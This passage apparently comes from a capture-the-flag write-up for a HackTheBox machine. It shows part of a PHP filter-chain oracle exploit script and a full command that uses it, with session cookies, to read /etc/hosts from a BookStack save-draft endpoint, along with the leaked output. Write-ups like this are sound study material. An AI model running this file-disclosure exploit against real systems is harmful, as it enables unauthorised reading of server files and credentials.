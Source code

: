 ```python
        filter_chain = f"<img src='data:image/png;base64,{php_filter}'/>"
        merged_data = self.parse_parameter(filter_chain)
        
        for attempt in range(retries):
            try:
                if self.verb == Verb.GET:
                    return self.session.get(self.target, params=merged_data)
                elif self.verb == Verb.PUT:
                    return self.session.put(self.target, data=merged_data)
                elif self.verb == Verb.DELETE:
                    return self.session.delete(self.target, data=merged_data)
                elif self.verb == Verb.POST:
                    return self.session.post(self.target, data=merged_data)
            except requests.exceptions.RequestException as e:
                print(f"[Error] Attempt {attempt+1}/{retries} failed: {str(e)}")
                if attempt == retries - 1:
                    print("[-] Could not instantiate a connection after multiple attempts")
                    exit(1)
                time.sleep(base_delay * (2 ** attempt))  # Exponential backoff
        return None

    def error_oracle(self, s):
        requ = self.req_with_response(s)
        if self.match:
            return self.match in requ.text
        if self.time_based_attack:
            return requ.elapsed.total_seconds() > ((self.time_based_attack / 2) + 0.01)
        return requ.status_code == 500
```

After running the exploit you'll see the following output if everything went smoothly.

```jsx
┌──(kali㉿kali)-[~/CTF/HTB/Checker/php_filter_chains_oracle_exploit]
└─$ python3 filters_chain_oracle_exploit.py --target http://checker.htb/ajax/page/12/save-draft --file '/etc/hosts'
--verb PUT --parameter html --headers '{"Content-Type":"application/x-www-form-urlencoded","X-CSRF-TOKEN":"U8HOxoz7
FLPtHMIzgCF8OgSt92LLbCEYDQPyImY0","Cookie":"XSRF-TOKEN=eyJpdiI6IjFmU3I1d2xUUUlhVkVLTUozWGwveVE9PSIsInZhbHVlIjoiRHpw
SjBTQXdQV3ZGSVFNWHp6QkRITkR6a1ZodmFIYnpqWFVrTG5jWHZGcHNEVmc1TGlheXpKc0pKd1pwYzRBNUtnQjVHSWdQOVhuSGVEcytOc0svbHFTQVl
XU1BPdjM3bjduV1lKeVRpUWhLUVZ2bWVDd1dmTjZ4ZXJmVG1HTlIiLCJtYWMiOiIwMjA5NDA0NDgzODhjYTZjY2NiZGFlODczNmQ1MGYyNDlmMjlkM2
YyNDIwMTk5ZjRhY2Q1ZDhlN2EwMDJjNWE2IiwidGFnIjoiIn0%3D; bookstack_session=eyJpdiI6InFBS0EzREVtSWxNRlUyWkxuRXVuRUE9PSIs
InZhbHVlIjoiMUhBZjRva3FpaHlJai9kT0h4UlYrZ0VLcFhqTVV4UzVzWlpVR2pBRXZCM0NMWU9xOW1VT1RObGUwT1pJeWE1VlBHQmdONXQ2cmU4L09
RVmM1VVk1cnNqdXFIcW5WL0xwK3NNNnE1c0FmZVozUFRxTVZZRG8xME00d3duc3E1eXUiLCJtYWMiOiIwYWMzNjMyMDRiODNiOWM1MjFlMjcwZGVkOGE
5NDBkNzI5MTE1NGRlODVlN2NkYWZjY2RlYzJmN2Y2NjNkMzU1IiwidGFnIjoiIn0%3D;"}'
MTI3LjAuMC4xI
b'127.0.0.1 '
```
